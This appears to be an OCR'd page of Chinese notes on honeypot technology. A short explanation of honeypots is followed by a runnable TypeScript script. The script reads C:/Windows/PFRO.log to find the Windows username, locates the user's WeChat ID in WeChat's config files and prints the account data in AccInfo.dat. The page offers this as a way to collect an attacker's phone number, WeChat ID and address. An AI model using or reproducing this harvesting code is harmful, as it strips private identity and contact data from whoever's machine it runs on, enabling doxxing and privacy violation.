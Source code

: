 ### 蜜罐技术

> ```bash
> # 一、蜜罐介绍
> 蜜罐是对攻击者的欺骗技术，用以监视、检测、分析和溯源攻击行为，其没有业务上的用途，所有流入/流出蜜罐的流量都预示着扫描或者攻击行为，因此可以比较好的聚焦于攻击流量。
> 
> 蜜罐可以实现对攻击者的主动诱捕，能够详细地记录攻击者攻击过程中的许多痕迹，可以收集到大量有价值的数据，如病毒或蠕虫的源码、黑客的操作等，从而便于提供丰富的溯源数据。另外蜜罐也可以消耗攻击者的时间，基于JSONP等方式来获取攻击者的画像。
> 
> 但是蜜罐存在安全隐患，如果没有做好隔离，可能成为新的攻击源。
> 
> 
> # 二、蜜罐技术获取手机号、微信号、地址
> 1.读取 PFRO日志文件（这个文件是存放ISA监控日志的信息）
> 通过这个文件可以读取系统的用户名
> ```
>
> ````ts
> /*
>  * index.ts
>  * 需要生成package.json：npm init -y
>  * 需要安装依赖库：npm i ts-node -g
>  * 需要安装声明文件：npm i @types/node -D
>  * 通过 ts-node index.ts 进行启动项目
>  */
> import fs from 'fs';
> //获取微信ID
> const getWxId = <T>(path: T) => {
>   const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
>   const reg = /Documents\\WeChat Files\\([^\\]*)/ig
>   reg.test(data)
>   return RegExp.$1
> }
> 
> //读取信息
> const getData = <T>(path: T, wxId: T) => {
>   const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/${wxId}/config/AccInfo.dat`).toString('utf-8')
>   return data
> 
> }
> fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
>   const exp = /Users\\([^\\]*)/ig
>   exp.test(data.toString('utf16le'))
>   const userName = RegExp.$1
>   const wxId = await getWxId(userName)
>   const info = await getData(userName, wxId)
>   console.log(info);
> })
> ````
